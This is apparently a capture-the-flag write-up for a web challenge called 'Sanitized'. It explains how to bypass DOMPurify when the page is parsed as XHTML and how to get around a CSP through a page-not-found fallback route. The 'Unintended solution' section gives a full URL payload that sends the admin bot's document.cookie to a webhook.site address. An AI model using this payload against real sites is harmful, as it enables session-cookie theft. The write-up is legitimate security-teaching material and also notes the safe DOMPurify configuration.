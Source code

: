 # Sanitized

* Category: Web
* Score: 498/500
* Solves: 5

## Description

You are not going to find a DOMPurify 0day right?

## Solution

- DOMPurify uses HTML parser by default, but XHTML parsing allows CDATA so it is possible to use a combination of `<style>` and CDATA to bypass it. Actual HTML payload should be encoded inside a HTML attribute.
- To bypass CSP, you need to abuse the **page not found** fallback route and use that to construct a valid js using url path.
- It is necessary to clobber `window.Page` to prevent the js from throwing error.
- To make a `<script>` tag load when inserted using `innerHTML`, the only way is to use `<iframe srcdoc="...">`. But you can't do that easily as XHTML does not allow `<` in attribute value, and you can't easily emit a `&lt;` token from HTML's attribute context.
- The trick is to inject a `<base href="...">` to change the base url, then the subsequent `report.js` script tag will use the new base url, which triggers the fallback route.
- `solve.js`

> To actually use DOMPurify safely in XHTML context, you must use `{PARSER_MEDIA_TYPE: 'application/xhtml+xml'}` option to tell DOMPurify to use XHTML parser instead of HTML parser.

## Unintended solution

Submit `/1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//asd%2f..%2f..%2findex.xhtml#https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?` to the bot.

The reason that this works is because browser considers this path as loading a file named `asd%2f..%2f..%2findex.xhtml` from an directory called `1;var[Page]=[1];location=location.hash.slice(1)+document.cookie`, but express will treat `%2f` as `/` so it still loads the `index.xhtml` successfully. Since `index.xhtml` load various scripts like `main.js` using relative math, so it will attempt to load `/1;var[Page]=[1];name=location.hash.slice(1)+document.cookie//main.js`, which returns a valid js from the fallback route.

> This unintended solution is found by r3kapig first, but I rewrote the payload to make it more concise.
